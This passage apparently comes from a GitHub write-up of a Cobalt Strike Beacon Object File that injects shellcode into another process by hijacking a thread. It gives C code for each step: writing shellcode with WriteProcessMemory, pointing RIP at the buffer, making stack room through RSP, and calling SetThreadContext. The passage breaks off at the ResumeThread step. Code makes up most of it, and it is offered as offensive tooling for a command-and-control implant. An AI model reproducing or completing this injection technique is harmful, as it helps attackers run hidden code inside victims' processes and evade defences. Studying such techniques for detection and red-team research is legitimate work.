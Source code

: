 Secondly, `WriteProcessMemory` is called to write the shellcode to the allocation.

```c
// Write shellcode to the new allocation
BOOL writeMemory = KERNEL32$WriteProcessMemory(
	processHandle,
	allocateMemory,
	shellcodeFinal,
	finalLength,
	NULL
);

if (!writeMemory)
{
	BeaconPrintf(CALLBACK_ERROR, "Error! Unable to write memory to the buffer. Error: 0x%llx\n", KERNEL32$GetLastError());
}
```

After that, RSP and RIP are set before the call to `SetThreadContext`. RIP will point to our final buffer and upon thread restoration, the value in RIP will be executed.

```c
// Allocate stack space by subtracting the stack by 0x2000 bytes
cpuRegisters.Rsp -= 0x2000;

// Change RIP to point to our shellcode and typecast buffer to a DWORD64 because that is what a CONTEXT structure uses
cpuRegisters.Rip = (DWORD64)allocateMemory;
```

Notice that RSP is subtracted by `0x2000` bytes. [@zerosum0x0's blog post](https://zerosum0x0.blogspot.com/2017/07/threadcontinue-reflective-injection.html) on `ThreadContinue` adopts this feature, to allow breathing room on the stack in order for code to execute, and I decided to adopt it as well in order to avoid heavy troubleshooting.

After that, all there is left to do is to invoke `SetThreadContext`, `ResumeThread`, and `free`!

`SetThreadContext`

```c
// Set RIP
BOOL setRip = KERNEL32$SetThreadContext(
	desiredThread,
	&cpuRegisters
);

// Error handling
if (!setRip)
{
	BeaconPrintf(CALLBACK_ERROR, "Error! Unable to set the target thread's RIP register. Error: 0x%lx\n", KERNEL32$GetLastError());
}
```

`ResumeThread`
